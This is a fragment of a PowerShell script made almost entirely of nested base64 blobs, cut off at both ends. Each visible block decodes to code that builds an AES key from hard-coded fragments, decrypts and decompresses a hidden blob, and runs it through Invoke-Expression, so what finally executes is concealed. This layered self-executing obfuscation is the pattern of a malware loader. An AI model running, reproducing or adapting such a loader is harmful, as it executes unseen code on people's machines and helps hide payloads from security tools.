1AHEARQBtAHgAVAA1AFUASgBwAFgAMwBuAFcAMABOAFMANQBNAEkASQBHAHgAVwByAGUAcQBEAHYASQBDAGsAMABNAG0AeABSACsAcQBNAEIAVwAwAFMAMABxADYAMABoADAAagBTAGEAOAAwADcARgBDAGIAaQBHAEgAcABQAEwAcgBnAFgAZAB1ADcARgBnAFAAWQA3AEMAawBkAGIARgBsAHAAVwBuAGcAYQB4AFcANABYAGwASABKAFEAUgBPADIAaABQAEoAVAA5AFoAbQA2AEoAcgBoAFMASQBQAGsATQB0AEoAZQBTAGoAUQBRAG0ATwBPAE0AcABKADEATQAvAFkAYwBVAHQAOABuAGoATgBKAHIAeQBDAGYARgBxAGIAVwBUAHMASgBLAGoAZwBDAEkAcwBsAGgASgBCAHUAZQB5ADMAaABDAFMANwAwAGgATABsAFAAWAB4AGcAUQA0AE8AaQB6AFIATgBUAGgAbQBXADMAWABXAEUAdgBpACsAMwBoAHgAOABqADkAWgBJAGYAbwBrAGoAYgBGAGsARQBkAHUAbQBZAFIAMQB0AC8ATQBRAHUAcwBWAGcATQBEAEoATQBIADEAYgBmACsAZwBQAFAAWABsAG0ARgAwAG8ARQA0ADAAZgBSAGkATgBzAFUAYwBRAGIAYgA1AHEAQgBNAHoATwBUAFEAaABVADMAdgBRADcAQgBOAGEAQwB0ADkAQgBiADUATQBOADQAbQBYAFYANwBvADEANwBIAFYAYgBnAFUAZQB4AE8ATABxADAAeABrAEgAcgBkAHoAdwAwADMARwBMAHQAdwA3AHcAMABsAFMAagAyAGgAZQA1AG8AVwB4ADMANwBHAGoAUABPAHEAZwBKAEYAQQB4AHkAdQBjAHEANgBCADQAMQBNAGkAeQBjAE8AZwBBADMASwBMAEEAdQBjAEIANAA4ADMAbgBLAHMATABJAEkAYwBwAGcATAA4AGYATQBGAGwARgBuAHUARwBJAEIAUABwAGEAUABhAEIAZAAyADQAawA0AFIAMABxADEAbQBKAFYARABEAEkAbABSAGcAVgBxAFEAWgBEAHAAYwA1AGQAVgA3AHMALwBNAHcANQBhADkAeAAvAGwAZwBhAFEAeQBoAHMAMgAxAE4ASgBuAHoAaABpAG4AYQBSAGoAVgAwAHoAMgAxAEUAawBOAGYAcABjAEkATgB2AFUAagB4AFkAaAByAC8AKwBGAGkAbQBIADQASQB2ADIATgBrAEsAagBFAGoAYgA4AHoALwBFAEUAUQB1AEkAZABlAHMAYwB1AGYAUQBnAEkAdABNADgAdwBGAHkAbQBHAFAAeQBaAFUAbgBrAHAAUwBSAEIAKwA4AHYAZwBMAE4AaQAwADkAUgBwADMAUABEAEYAZQBpAGYARgBqAEkAQgAzAFYAZQBaAGYAagBBAEMAcAB2AGkASABYAHYAYwAwAGMAUwBJAEUAdgA2AHQAOQBrADcAbQBsAFEAQwBvAGYAVABSADkATwB0AGMAZwBqAEYAVABTAFoAVgA1AG4ANgBsAFMAaAB5ADAASwBkAGoAbQBuAEYANABDADMAagAxADEATgBTAHkATABEAG8ANwBrAHgALwBRADIANABQADcAUAAxAE4ANAB6AHIAWABJADMAMABmAHcAagBDAHIAQQBxAFkANABYADYALwB0AE4ATwBrAE4AUgBtAHYAUwBOAEIAdwA4ADIAOAB2AHoARABiAEIAVABxAHUAYwBHADkAMwBTAHkAaQBWAEcALwB2AE0AaABEAGEANwA1AEkAdwBxAFUAdQBXAEUAYQBFAG4AdwAvAG4AYgByADUAegBBAFoATwBYAG8AUQBaAG0AbQBWAHAARgBIAGEAegBQAEwAdgBoAHcAVQAyAEYAUQB3AEsAYgBQAGMAQQBJAEIANABMAG0ARgBoAGUAYQBSAEsAQQArAGMAUgBGADAAeAByAEIAUQBrAC8ATQBlADUAUwA5ADgASgBaAG4AOABQAEgANwBkADMARgBuAGIAVwBnAFIAVQBBADMAZwAzAE4ASgAyAFIAWQByAHQAKwBYAGIANABHADIAWAA5AGMAcwBtADUAMgBLAGkAMABGADQAZwA9AHoAYwBnAHcAMQBpAHEAOQBMAFoAMwBJAEIAcwAzAFkAUQBZAEkAUABGAFMAbQBmAEsARwBrAFgAawBDAEoAUAAiAAoAJABiAGEAcwBlADYANABFAG4AYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AIAA9ACAAJABiAGEAcwBlADYANABjAG8AZABlAGQALgBTAHUAYgBzAHQAcgBpAG4AZwAoADMAMgAsACAAJABiAGEAcwBlADYANABjAG8AZABlAGQALgBMAGUAbgBnAHQAaAAgAC0AIAA2ADQAKQAKACQAawBlAHkAMQAgAD0AIAAiAHIAcgBOADIAcwBrAG4AUwBYAFcAbABxAEIAcwBiAG0AIgAKACQAawBlAHkAMgAgAD0AIAAiADcAcQBFADIAawBYAFMAZQBBAHEANgBVAFIAMwAxAGIAIgAKACQAawBlAHkAMwAgAD0AIAAiAEUASgA0AFAAYgBXAFgASABRAGgASQB0ADgATgB5AGMAIgAKACQAZgB1AGwAbABLAGUAeQAgAD0AIAAkAGsAZQB5ADEAIAArACAAJABrAGUAeQAyACAAKwAgACQAawBlAHkAMwAKACQAcwBhAGwAdAAgAD0AIAAiAGkAcABPADkANgBVAHIAOQB5AFcASwBwADEAcABWAFAAIgAKACQAawBlAHkARABlAHIAaQB2AGEAdABpAG8AbgAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBSAGYAYwAyADgAOQA4AEQAZQByAGkAdgBlAEIAeQB0AGUAcwBdADoAOgBuAGUAdwAoACQAZgB1AGwAbABLAGUAeQAsACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBhAGwAdAApACwAIAAxADAAMAAwACkACgAkAGsAZQB5AEIAeQB0AGUAcwAgAD0AIAAkAGsAZQB5AEQAZQByAGkAdgBhAHQAaQBvAG4ALgBHAGUAdABCAHkAdABlAHMAKAAzADIAKQAKACQAaQB2ACAAPQAgACIAUABoAEIASAB5AEYAZgBDAEkAcQBVAGsATwBhADMAMQAiAAoAJABpAHYAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGkAdgApAAoAaQBmACAAKAAkAGkAdgBCAHkAdABlAHMALgBMAGUAbgBnAHQAaAAgAC0AbAB0ACAAMQA2ACkAIAB7ACAAJABpAHYAQgB5AHQAZQBzACAAPQAgACQAaQB2AEIAeQB0AGUAcwAgACsAIABAACgAMAApACAAKgAgACgAMQA2ACAALQAgACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAIAB9ACAAZQBsAHMAZQBpAGYAIAAoACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACAALQBnAHQAIAAxADYAKQAgAHsAIAAkAGkAdgBCAHkAdABlAHMAIAA9ACAAJABpAHYAQgB5AHQAZQBzAFsAMAAuAC4AMQA1AF0AIAB9AAoAJABhAGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBBAGUAcwBdADoAOgBDAHIAZQBhAHQAZQAoACkACgAkAGEAZQBzAC4ASwBlAHkAIAA9ACAAJABrAGUAeQBCAHkAdABlAHMACgAkAGEAZQBzAC4ASQBWACAAPQAgACQAaQB2AEIAeQB0AGUAcwAKACQAZABlAGMAcgB5AHAAdABvAHIAIAA9ACAAJABhAGUAcwAuAEMAcgBlAGEAdABlAEQAZQBjAHIAeQBwAHQAbwByACgAKQAKACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGIAYQBzAGUANgA0AEUAbgBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgApAAoAJABkAGUAYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAJABkAGUAYwByAHkAcAB0AG8AcgAuAFQAcgBhAG4AcwBmAG8AcgBtAEYAaQBuAGEAbABCAGwAbwBjAGsAKAAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAsACAAMAAsACAAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMALgBMAGUAbgBnAHQAaAApAAoAJABtAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAoACwAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwApAAoAJABnAHoAaQBwAFMAdAByAGUAYQBtACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAWgBpAHAAUwB0AHIAZQBhAG0AKAAkAG0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACwAIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApAAoAJABzAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoACQAZwB6AGkAcABTAHQAcgBlAGEAbQApAAoAJABkAGUAYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AIAA9ACAAJABzAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAuAFIAZQBhAGQAVABvAEUAbgBkACgAKQAKAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACQAZABlAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuAA=="
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgBrAFcANwBPADcATwBRAHcAQQBHAEcAawBxAGkANwBLAEcAZgBwAFQAbABaAEIAZABOAFoAZgAxAGcATwBWAHAAawBoAEkAdgBjAFAAOQBIAEEAQgAwAFAAWgBaAHQAMQA0AFYAegBuAHgAUgBhAFYAegBHAHoAZgA2ADUATwBOAE8AawBOAFYASwAyAGIAMQA5AFQAYwBkAGkANwBoAC8AOQBDAEQAUgBrADIAcwBBAFgAdABXADgAWQBnAHkAZQB6AGcAbQAvAG4AMgB6ADYAMwB0ADAAdAB3AGoAWgBsAE4AeABUAEQARABPAGEAdQB6ADcASQBTAHYARgA2ACsAcAAzAFMATwBKAHcAZwBaAC8ANgBRAFEANwB1AEsAdABqAG4ASAAvADQASABGAE0AUABzAEsAeABpAFIAQQBxAFMAMQBtAGMATABmAGEATAB3AFIAVgBIAHIANwA5AHEAQgB6AHUATQBKAFUAOQBQAFIAbAB3AGsARABEAGkASwAwAGwAeQBIAFoANgA4AFIAZABTAFMATQBzAEUARwBOAEoAMQB3ADcAMgBwAE4ANwBvAHkAYgB1AEMAVgAyADMARwB5ADQAeAA0AEoAQQB3AFAAQwBhADUASwBBAHMAUQBVADkASQB0AEoAOQB0ADMAQQBBAEkANgBUAEsAOQBLAGcAdQBiAFIATAArAG4AKwBIADIARAAvADgAQwBFAEQAYgBZAE0ARgB0AEUARQB4AHQAaABqAEEAaABMAGwAVgB5AEgAVgBVAG0AWAB2AHEAZwBaAFkAbwBEAEMARwBxACsAMQA2AHkAbwBJAEkARABVADAASwBkAHoATABYAFEARwB2AEEAagBtAEYAcQBoAGoAdQB0AG8AYwBsAGEAVQB4AEoARQBVAHIAWgBoAFUATABQAGkARQBBAGYATgBCAFoAUABtADMASwBhAEEATgBIAEYARABOAGoANABKAFoAcwB3AEkAYQBTADYAWABlAGcAMgBWAGEAUwBCAHcAQwAxAHIARwA4AGoAcwBwAFQAeQBJAHEAbAB1AEsALwB6AHUAQwBKAG4AdwB2AHQATgBUAE0AbABEAFgAVABYACsAVAA1AC8AeQBHAGUARAAvAHkAMwA5AGUAQQBzAC8AOAB1AFAATwBSADcAUABqAGIAZwBmAEEAbABuAHIAYwBBAFMAdgBLAFoAWgBrADMAcABFAEQAbwBSAGEAdQB3AGUANABpAEQARwB1AHcANgBPAFcAdwBkAGEAMwAvADUAeQAvAGoAagBGAGYAWABTADUAWgBYACsAYQBNAHEAMQB5AGEAaAB4ADQAbgBEADEAawBPAFEAQwBtAEkAaABoAEUAWQB0AEYAYQBjAE0ARQB2AFkAQwBpAEwARgBmAGkAawB0AGcAVAAzAE0ALwA3AE4AWQA0ADAAbgBSAC8ARAAvADgAMwBZAGwANQBEAEkAUAA3AGEANABGAEcANQBqAEEAcwB6AC8AZwB4AEEAOQBqAHEAYgBDAFIAZAA1AHUAbQAyAHcAcQBrAEoANQBVAE8AcQBVADkARABnAC8AVABCAEEANgBxADcARgB1AFMARwByADgASwAyAHQAYgBJAEMAawBmADUAegA3AG0AcwBKAHkAMABiACsAdAB3AGMAbwByAHkAdwA0AEUAVwB5AFMAbwAxAGIAMQAxAEkAcgBMACsAbQBlAG4AYgAyAGQAcwByAG4ATABPADgAbABJAGcARQBnACsAYwAxAGoAZABYAE0ARwA5AC8AVABqAEkANgBwAE4ANQA0AHIANwBXAEUAagB4ADgAaABNAFAAOAB0AHEATQBkAHAAdgBXADAAMgBEAGcAcgBFAGMANABPADgAbABZAFQAVAAxADgAdgA3AGoAOABJAFgAUgBwAEYAYQA4AGQAcgBLADUATABaAFoAdwB5AHgAUgB2ADkAMgBxAHIASwBxAGkAUwBKAFgARQB5AFcATgBKAG0AZAA2AEgAcQArAGsANAAyAFUAUwByAEsAMgBSAG4AZQAyAEcAeQBFAFAAVQBwAG0AUAA4AFAAcABQAE0AQgA0AG0ANwB6AHMAdgA5AFAAQgBmADIAeQBPAEYASwAwADQAcwAxAEcAVQByAGkAUwBXAHMAMABkAFgASwBJAEUATgByAEgAawBaAE4ATgBkAHkAegBxAFYATwB2AEwANwBmADgAYgBaAEwAUwB2AFEAYgBPAHUAbwAxAE4AVwBwAGsAcgBBAEwAYQB4ADUAVgArAFQAcABVACsAVABJAHgAZgA4AFgAdwA1AGMAcwB6ADYAbAAwAFAAegAyADgALwBsAEcASQBMAEMAMABYAEkAZwB0AFoAcgByAHgAWgBmADYAaQBnAHoAcgB1ADAAdgArAEsASgB5AG0ARwBKAHIARgBIADMATABnAEsANQBjADgAcAA5AGMAYQBGADYAeQBLAEQAdwAxAE8ASgBSAHoAcQA2ADkANgAvAEIANQBtAEwAOAAxAGkAbAAxAEQANQA1AGQAWAA2AFkAagBsAE8AMgB5AFgAKwBpADcAUABSADgAZgA2AGEAeQBBAEcAcwBpADkATAAzAFoATgAwAG8AeQAxAHQANwBXAHIARABPAGQAWQBwAEEATABlAEUAdgBrAHgASwBSAHMAZwBKAEgASAA5AFkAZwBrAHYAOABjAHMAQwBVAEMARwBEAHYAbQBhAEwANwBnAEEAdQBaAFIAYwBQAG4ANABXAEsAVQB4AGgAOQAxAEYAWQBEADcAUABVAE8ASgBTAFAAcQB1ADIARwBUADEANAA0AHQATwBlAGcAQQA5AGoARgA5AEYAcgBBAFcALwAxAGoAZQBDAEsAcQA1AEUAagB4AGgAMgBsAGwATABWAHMAYgBuAHEAagBNAHUAMgBuADMAQgBKAEMAdgBXAEwAbABCAEcAdQBDAGQAWQA1AFcATgA5AEwAaAB6AEoAVgBKADEATwBQAFAANABnAG8AagBOAFAARgA2AE0AWgBZAHoASQBEAGcAbwBtAG8AaQBGAFYAWQBOAHYAMAB5ADAAQgBmAHIAbQBVAEUAOABQAFIAWgBMAEIAZABVADIAQwA3AEkAdwA0AFEAUgBvAHAAaQB5AEIAVQBxAHgAeABBAGcASwAzAHgAdQBmADYAVABvAHAAbgBtAGQAbABzAHEAbgBRAG0AbwBmAE8AOQB5AHMAbgBMADgAdABPAEIAOAAyAGQAUgBCAHoATQBDAGwARQBKAFYAMQBrAGwARgA4AGcAcAB2ADkAYwB1AFIAVAA5AHAAMgBPAGgAeQArAEQAWgBiAFEAWABBAEgAcwB5AEkATQBXAEQAUAAzAE0AbwBJAGwATABOAHQAYgBHACsAdgBtADMAMABaADUATQB0AGMANQBjAFcASwBRAHMARgB3AGcAcwBHAC8ARQB0AFMASgBKADcALwBQADkAVQBWAGUANABxAHoAUwA1ADAAYgBSADcAcwBJAGMAMQBPADEASQBaAFIATwBUADAAdABVAE8AVAAwAHcAeABFAFYAdQA4AC8AYwBUAGwAVABXADQAWgBNAGUATgA2AEcAdgB2AEwAcwB2ADUAOABrAHAAMwBzAEYAMgBXAEwATQBmAGcAQgB1AE4AVgBIAG4AeABoADMAOAAwAHAATgBBAGYAMwBQADkASgAzAGEAdQBBAHEASgBOADkAVgBIAFMAQQAxADkAaABiAE4ARQA3AFIAeAByAHcAaQBBAEwAMwBwAFkARQBUAGIAaAB4AHYAbQA3AEgAYwBNAFEAYwAzAFcATwBHAFoATwAwAFMAVgB1AEkAaQBtAG8AUQB0ADQANABNAGIAawBaAFkASQBPAEkANQBOAHgAKwByAEoAMQBUAFIARgBkAG0AcABMAHoAYwBaAHcAUgAzADgAMwAwAFIAQgBaAEcAawBjADEAVgBzAGQANQArAGgARgBlAE8AcgBsAHQAMABUADQAVABrAHAATAAzAHMASgArADMAVgBWAGMAUwA5ADEAYQBUAFMAYgBwAE8AYgBCAHUARQBHAG4AegBpAEoAbgBhAEoANwA2AHQAUgBCADYAcgAxAG4ASQAwAHYAQQBuAGMAVgBPADMAYwBmAE0ASABPAGwAbgAzAG8AOABPADQAYwBsAFMAUwBIADAAeAArAHIAdQBMAEkAaABZAEMAMQBvAGwAUQBvADMAQwA4AGcAdgBhAEMAcAB6AEMASAB2AEkAUwA5ACsAUQBMAFoARQBUAHoAeQBUAHQAaABtAGQAbwBaAEoASgBiADgAMgBzAEsATABZAEYAbwBtAGgAagBlAEYAQgA4AFgAQgA5AFoAQwB1AEwARgBqADQAMABBAEIAOQB0AGkANABCAFUAQwBmAGsAVgBDAGEATgB1ADYASwAyAFEAQwBiAEwARwB0AEEAMgA2ADkAbgBiAHMAQwAxAG8AeQA0AEwATQA5AE4ATwBrAE8AagBYAGkARQBaAHIAVQBOAGQALwBFAFcAZQBwAE4AWABtAGMAZQBKADYAdwB4AE4ATwBUAGEAZABFAHQAMQBBAGgAZgBSAFcANABDAGoAMwB2ADMAUwBFAGYAVwA5AHQAUAAvADQASwBuAGQAegBBAEUAbABDAGEAZQBVADIAZQBCAGkASQB5AEIAYQBuAHQASQBHAEwAYQBkADYARABGAHkAaQBUADUAYgBKAFUANwBYAHgAeABYAEsAdQA2AFoAdAA0ADcATQBaAGgAZABZAE0ATAB0ACIACgAkAGIAYQBzAGUANgA0AEUAbgBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgAgAD0AIAAkAGIAYQBzAGUANgA0AGMAbwBkAGUAZAAuAFMAdQBiAHMAdAByAGkAbgBnACgAMwAyACwAIAAkAGIAYQBzAGUANgA0AGMAbwBkAGUAZAAuAEwAZQBuAGcAdABoACAALQAgADYANAApAAoAJABrAGUAeQAxACAAPQAgACIAbwBmAGIANgBzADgAcABjAHYAWABWAHkAcwBpAHUAQwAiAAoAJABrAGUAeQAyACAAPQAgACIATABaAGgAbwBqAFcAMgBlAHoAUwB2ADkANQBvAFEANQAiAAoAJABrAGUAeQAzACAAPQAgACIAYgAxADYAOABtAGkAUAByADEAYwBKAHcAZABqAE0AdwAiAAoAJABmAHUAbABsAEsAZQB5ACAAPQAgACQAawBlAHkAMQAgACsAIAAkAGsAZQB5ADIAIAArACAAJABrAGUAeQAzAAoAJABzAGEAbAB0ACAAPQAgACIANwBBAHYARwB3AG8AZQB3AEQAQgBnADIATQBNAEMAeAAiAAoAJABrAGUAeQBEAGUAcgBpAHYAYQB0AGkAbwBuACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAFIAZgBjADIAOAA5ADgARABlAHIAaQB2AGUAQgB5AHQAZQBzAF0AOgA6AG4AZQB3ACgAJABmAHUAbABsAEsAZQB5ACwAIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGEAbAB0ACkALAAgADEAMAAwADAAKQAKACQAawBlAHkAQgB5AHQAZQBzACAAPQAgACQAawBlAHkARABlAHIAaQB2AGEAdABpAG8AbgAuAEcAZQB0AEIAeQB0AGUAcwAoADMAMgApAAoAJABpAHYAIAA9ACAAIgA3AFkAUABGAGQAbwBEAFoAQwBCAHEAYwBCAHUANABiACIACgAkAGkAdgBCAHkAdABlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAaQB2ACkACgBpAGYAIAAoACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACAALQBsAHQAIAAxADYAKQAgAHsAIAAkAGkAdgBCAHkAdABlAHMAIAA9ACAAJABpAHYAQgB5AHQAZQBzACAAKwAgAEAAKAAwACkAIAAqACAAKAAxADYAIAAtACAAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQAgAH0AIABlAGwAcwBlAGkAZgAgACgAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAIAAtAGcAdAAgADEANgApACAAewAgACQAaQB2AEIAeQB0AGUAcwAgAD0AIAAkAGkAdgBCAHkAdABlAHMAWwAwAC4ALgAxADUAXQAgAH0ACgAkAGEAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEEAZQBzAF0AOgA6AEMAcgBlAGEAdABlACgAKQAKACQAYQBlAHMALgBLAGUAeQAgAD0AIAAkAGsAZQB5AEIAeQB0AGUAcwAKACQAYQBlAHMALgBJAFYAIAA9ACAAJABpAHYAQgB5AHQAZQBzAAoAJABkAGUAYwByAHkAcAB0AG8AcgAgAD0AIAAkAGEAZQBzAC4AQwByAGUAYQB0AGUARABlAGMAcgB5AHAAdABvAHIAKAApAAoAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAYgBhAHMAZQA2ADQARQBuAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuACkACgAkAGQAZQBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAgAD0AIAAkAGQAZQBjAHIAeQBwAHQAbwByAC4AVAByAGEAbgBzAGYAbwByAG0ARgBpAG4AYQBsAEIAbABvAGMAawAoACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACwAIAAwACwAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkACgAkAG0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALAAgACQAZABlAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACkACgAkAGcAegBpAHAAUwB0AHIAZQBhAG0AIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4ARwBaAGkAcABTAHQAcgBlAGEAbQAoACQAbQBlAG0AbwByAHkAUwB0AHIAZQBhAG0ALAAgAFsAUwB5AHMAdABlAG0ALgBJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0AcAByAGUAcwBzACkACgAkAHMAdAByAGUAYQBtAFIAZQBhAGQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgAJABnAHoAaQBwAFMAdAByAGUAYQBtACkACgAkAGQAZQBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgAgAD0AIAAkAHMAdAByAGUAYQBtAFIAZQBhAGQAZQByAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApAAoASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABkAGUAYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4A"
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgBkAG0AVgA4AHoAdwBEAFkAMAA5AHAAeQBuAFMAcQB1AFMANwBsAFMAUwBpAE0AZABvAFkASABUAFgASABWAEIAbAAyAFgARABaAHcANABPAGwAZQBIADQAaABZAGwAcABRAG0AVwBIAEMASgBIAFYAawBqAHcAYwB6AGkAMgB1AHUAWAAvADcAdgBKADQAbQArAEkALwBJAEgAdABXAFEALwAwAEsAVQBhAFMALwBUAGgARgAxAGEASwBHAFIAVABUAFMANABXAFAAWQB5AGYAdgBoAEUASwBBAE0AMQBJAFgANQBGAFIAYQBYAHYAWgB5AG4ALwAvAHQANQA0AFgAMwAxAEoAZQBxAFYAMQBsAHoANAB4AFQARgBUAHQATwB3AHYAZgB1ADAAdwB2AHQARgBMAGUAVgBEAFAAMABCAE4AQwBJAG0ATQAwAEYAagB2AFIAYwA4ADQAUQBsAEgAVAAxAFMAVwBkAGgATwBIAGgAZwBQAG4ASAA4AGwATAA0AHAASwB4ADkAQgBmAHUAbQB4AEUAdwB4AGMAUQBmAGsAcgAxAFYAVwBMAEkAdQAyAHkAcgA1ADYAQwA2AGoAQwBnAFIAZAAxAGUANAA1AGEAUgBrAFkAVwB5AGgANAArAFEANABSAHIAYgBRAHEAYQBIAGEAQgBHAEgAbwBOAEkANAA1AHkANwBXAGMAYgBWAFIAZgBGAHIANQBLAGYAawB4ADkAMgB2AFQAbQBQAFAAVwBOAHcAWAB0AFkASgBRADcAcwBxAGYAcQBKAG4AWgBGAHoAdwBZAE8AbQBLAFIAawBQAEYAQgAxAGUAYgBiAFYASwBHAHcANQBUAGoAMABvAGkAVABIAFUASgB6AC8AMgBsADAASgBjAHEAUgB4AHoAZABwADIAbQBJADYAOQBLAC8AOAAxAGEAVwBlAFYAVgBUAGgAaAB1ADIAcwBoAFYAYQBhAEcAOAA3AEgAVQBIAHgAMQBGAC8AQgA3ADMAbABLAC8AbwBiAE8AQQBQAHkAWgBhAHQAdQBYADIARwBUAGQAZAB1ACsAeQBnAGMARgBxAHMAKwBIAFEANABKAEkAMABNAFUASgBEAE0ATABtAHoAbABzADkAdAAxAGEAdQA2AGcAQwBIAE4AZgBEAFUAcwAzAFUAbABlAFQARQBIADQAZQB6AFMAdwA0AE8ARgBVAEcAMAA4AE4AZQBZAHUAdABaAHkAWQBwAG4ASQBRAGoATgB5AGUAcQBmAE8AWQBlAE4AYQBNAFYAegBDAC8AVgBrAGgAawAvAE8AVQB6AHkASQA0ADYAQgBQAEIASAB0ADcAMgBqAEsAVAAvAGgARQByAEYAOQAvAFAAQgBuAFYAYwA0AFEAUQB5ADEANABoAE8AaQBUAG8AcgBFAEsANwBkAC8ARQBxAFMAZgBWAFEAVwBIAGQATQBWAHUAUwBVAE4ATgBJAHoAbgBhAFEAbQA1AGwANgBjAHYAVgBGAFAARABBAHcARQBtAC8ANQBEADUAYwBkAGoARAB1AHAAQwBQADUAdgBmAHEAWQB5AGQASAAxAEEANQAwADgAawA5AC8AOABFAGcATgBkAFEAOQBjADQAKwBHAFEAegA1AFYAUgBBAHIAMABlAFYAcQBmAHUARwBlAEQAbgAzAHMATQBEAGMATwBTAHEANwBkAFEAbwBjAHMAZABWAGUALwA3AFoAQwBoAHQAcwByAGEAQQArADQAagAxAFEAMgAvAGcAYwBMAE0AYQA5AEUAUgBkAEwARgByADEAWgBuAGwAMgAvAEUARAA4AGMAWQBkACsANAB6AG4ATgBZAGEAWgBkAHkAcQAwAFgAWgBYAEUAUABoAGEAQQB1ADEAMQBMAEcATgBLAEcAWQBNAE0ASgA0AFgAbgBhADEAaABIAFoANAAyADMAOABTAGgASwBIAEEAQwBjAGwAMABNADYAVwBLAEgATQBGAC8AOQBvAEkAbgB4AGEAdwBhAFAAMABsAEwAZABTAGIAVgB5AGMASgB1ADEAbgAwAHIAWQA2ADQAbgBmAEUAbgBUAGIASAB1AFQALwArAHMAZgBIAG8AQwB0AHcANgBtAGMAZQBaAH